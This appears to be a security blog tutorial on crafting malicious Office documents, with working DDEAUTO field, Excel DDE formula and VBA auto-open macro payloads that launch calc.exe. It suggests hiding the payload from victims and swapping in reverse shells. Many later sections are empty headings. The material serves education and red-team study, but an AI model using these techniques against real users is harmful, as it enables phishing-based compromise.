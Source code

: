Generously, attacker will use these below techniques in leveraging Microrosft Office feature and vulnerabilities:
1. Exploits
2. Macros
3. Embedded Object
4. Remote injection
and many more...

In this post, we will learn various of techniques how to make a maldocs that can execute code (in our case, we will just run the `calc.exe`). 

Why security researcher always pop-up a `calc.exe` when doing a Proof-of-Concept? Because it is simple an easy. You can always replace the `calc.exe` execution with any payload you want like *Powershell reverse shell* or *mshta fileless* or anything else that suitable your appetite but popping up a `calc.exe` indicated that this things that we play around right now, can also execute anything like download and execute malware. Not just a `calc.exe` execution.

Claim: This is for education only as to understand how maldocs were created by the attacker out there. Do with your own risk.

# DDE attack

Let's start with the DDE attack. This attack was commonly use by attacker out there, where once a victim was phished by clicking the "yes" button in the Warning message by Office, they can immidiately being compromised by the attacker.

DDEAUTO, short for automatic dynamic data exchange, is a command you can put right inside the data of an Office file to get it to pull data out of another file. In our context DDE works by executing command, that will provide the data (data provider).


## Microsoft Word

Go to `Insert` tab -> Click on `Quick Parts` -> Click on `Field`

![](2020-11-02-21-22-21.png)

Let we setup the DDEAUTO payload at footer of our document as victim supposely will not notice it hehe.

Choose `= (Formula)` field names and click `OK` button,

![](2020-11-02-21-23-26.png)

After that, you should see a Field inserted in the document with an error `!Unexpected End of Formula`. Right-click the Field, and choose `Toggle Field Codes`.

![](2020-11-02-21-28-58.png)

The field code now should display `{= \* MERGEFORMAT}`.

![](2020-11-02-21-29-25.png)

Change the field code by manually typing the payload command you want to execute. In our case, we only gonna execute our calculator app.

```
{DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe"  }
```

![](2020-11-02-21-36-29.png)

Save the document.

![](2020-11-02-21-37-33.png)

Let's execute the document. As victim, they will be welcome with these two warning message. By clicking `Yes` on both warning box, our command will be execute!

![](2020-11-02-21-38-41.png)

![](2020-11-02-21-39-53.png)

Calc.exe pop-up!

![](2020-11-02-21-40-14.png)

## Microsoft Excel

In Excel, we can embedded our DDE payload through the use of formulas feature.

Choose a box to put this payload `=cmd|'/c calc.exe'!'T81'` where T81 should be any table column number. Paste in the box and Excel will pop-up a warning. Just ignore it by click `No` for now. 

![](2020-11-02-22-04-25.png)

Then, it will display this `#REF!` text in the box.

![](2020-11-02-22-05-06.png)

Click on the Yellow Warning icon, and choose `Ignore Error`

![](2020-11-02-22-08-31.png)

then save the document.

![](2020-11-02-22-09-53.png)

Open the document and click `Enable Content`.

![](2020-11-02-22-10-38.png)

Click `yes`, and calc.exe will be pop-up!

![](2020-11-02-22-11-26.png)

![](2020-11-02-22-11-40.png)


# Microsoft Word Macro

In malware wild, macro malware is typically transmitted through phishing emails that contain malicious attachments. When the macros run, malware coded into the VBA will begin to infect all files that are opened using Microsoft Office. In our case, we will only execute a `calc.exe` app.

Click on 'view" tab

![//pic2](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic2.png)

Click Macros

![//pic3](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic3.PNG)

Type any name you want for Macro name and click "create" to create the macro

![//pic4](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic4.PNG)

On "Project" path, click ThisDocument

![//pic5](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic5.PNG)

### Execute command

Write our malicious macro code like below

```
Private Sub Document_Open()
Test
End Sub

Private Sub DocumentOpen()
Test
End Sub

Private Sub Auto_Open()
Test
End Sub

Private Sub AutoOpen()
Test
End Sub

Private Sub Auto_Exec()
Test
End Sub

Private Sub Test()
    Shell ("cmd /c calc.exe")
End Sub
```

![](2020-11-02-22-59-48.png)

Save the document as `.doc` or `.docm` and run it!

![](2020-11-02-23-02-18.png)

![](2020-11-02-23-02-39.png)

You can also use other payload command line like powershell etc.


# Excel4Macro

# Template injection

# Inline Shapes

# ACCDE executable

# Embedded object

# PPT Hover over

# RTF

# OLE 

# CVE-2012-0158

# CVE-2017-0199

# CVE-2017-11826

# CVE 2017-11882

# Other abusing tehcniques
